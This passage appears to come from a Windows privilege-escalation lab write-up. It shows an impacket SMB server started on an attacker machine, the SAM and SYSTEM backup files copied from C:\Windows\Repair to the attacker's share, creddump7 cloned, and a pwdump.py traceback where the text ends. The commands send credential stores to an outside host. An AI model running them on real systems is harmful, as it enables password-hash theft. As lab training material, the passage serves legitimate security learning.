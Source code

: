 The SAM and SYSTEM files can be used to extract user password hashes. This VM has insecurely stored backups of the SAM and SYSTEM files in the `C:\Windows\Repair\` directory.

Let's spawn an SMB server on our attacker machine:

```bash
joshua@kaligra:~/Documents/thm/windows10privesc$ sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py kali .
[sudo] password for joshua:
Impacket v0.9.24.dev1+20211013.152215.3fe2d73a - Copyright 2021 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```

Copy `SAM` and `SYSTEM` files:

```
C:\Users\user>copy c:\Windows\Repair\SAM \\10.8.100.14\kali\
        1 file(s) copied.

C:\Users\user>copy c:\Windows\Repair\SYSTEM \\10.8.100.14\kali\
        1 file(s) copied.

C:\Users\user>
```

Let's clone on our attacker machine `creddump7`

```bash
joshua@kaligra:/opt/tools$ git clone https://github.com/Tib3rius/creddump7
Cloning into 'creddump7'...
remote: Enumerating objects: 107, done.
remote: Counting objects: 100% (5/5), done.
remote: Compressing objects: 100% (5/5), done.
remote: Total 107 (delta 0), reused 1 (delta 0), pack-reused 102
Receiving objects: 100% (107/107), 51.65 KiB | 944.00 KiB/s, done.
Resolving deltas: 100% (55/55), done.
```

If we get error:

```python
joshua@kaligra:/opt/tools$ python3 creddump7/pwdump.py SYSTEM SAM
Traceback (most recent call last):
  File "/opt/tools/creddump7/pwdump.py", line 31, in <module>
    dump_file_hashes(sys.argv[1], sys.argv[2])
  File "/opt/tools/creddump7/framework/win32/hashdump.py", line 311, in dump_file_hashes
    dump_hashes(sysaddr, samaddr)
  File "/opt/tools/creddump7/framework/win32/hashdump.py", line 293, in dump_hashes
    hbootkey = get_hbootkey(samaddr, bootkey)
  File "/opt/tools/creddump7/framework/win32/hashdump.py", line 177, in get_hbootkey
    cipher = AES.new(bootkey, AES.MODE_CBC, iv)
  File "/home/joshua/.local/lib/python3.10/site-packages/Crypto/Cipher/AES.py", line 95, in new
    return AESCipher(key, *args, **kwargs)
  File "/home/joshua/.local/lib/python3.10/site-packages/Crypto/Cipher/AES.py", line 59, in __init__
    blockalgo.BlockAlgo.__init__(self, _AES, key, *args, **kwargs)
  File "/home/joshua/.local/lib/python3.10/site-packages/Crypto/Cipher/blockalgo.py", line 141, in __init__
    self._cipher = factory.new(key, *args, **kwargs)
SystemError: PY_SSIZE_T_CLEAN macro must be defined for '#' formats
```
